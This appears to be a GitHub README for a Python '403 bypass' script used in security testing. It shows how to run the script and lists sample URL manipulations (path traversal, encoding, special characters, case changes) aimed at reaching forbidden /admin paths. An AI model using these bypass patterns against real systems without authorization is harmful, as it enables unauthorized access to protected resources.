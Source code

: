 Here’s your README file in proper Markdown format:

# 403 Bypass Script

This script attempts to bypass 403 Forbidden access restrictions by appending and modifying URL paths in different ways. It generates a list of URL variations based on encoding, path traversal, and other techniques.

## How It Works

The script takes a target domain as an argument and appends various URL encoding tricks, path traversal techniques, and common bypass patterns to the given domain. It then attempts to access each generated URL.

## Usage

Run the script with the target domain as an argument:

```sh
python bypass_403.py example.com
```

Run with custom path. example: /secret/

```shell
python bypass_403.py example.com /secret/
```

Features
• Tries different URL encoding techniques
• Uses path traversal and directory manipulation
• Attempts access with special characters and encodings
• Generates multiple variations of the /admin path

Notes
• This script is for educational and security testing purposes only.
• Do not use it on systems without proper authorization.

Example URLs Used in Bypass

Some of the techniques used in this script include:
• Double slashes:

example.com//admin//
example.com///admin///

    •	Path traversal:

example.com/admin/../
example.com/admin/./
example.com/admin/..;/

    •	URL encoding:

example.com/admin/%2e/
example.com/admin/%2f
example.com/admin/%20

    •	Query and fragment manipulation:

example.com/admin?
example.com/admin??
example.com/admin#
example.com/admin/#

    •	File extension tricks:

example.com/admin.json
example.com/admin.css
example.com/admin.html

    •	Special character injection:

example.com/;/admin/
example.com/admin/~
example.com/admin/\*

    •	Case variation:

example.com/ADMIN
example.com/ADM+IN
example.com/\*/admin

By using different encoding techniques and special characters, the script attempts to find alternate paths that may bypass 403 restrictions.

**_Disclaimer: Use this tool responsibly and only on systems where you have permission._**
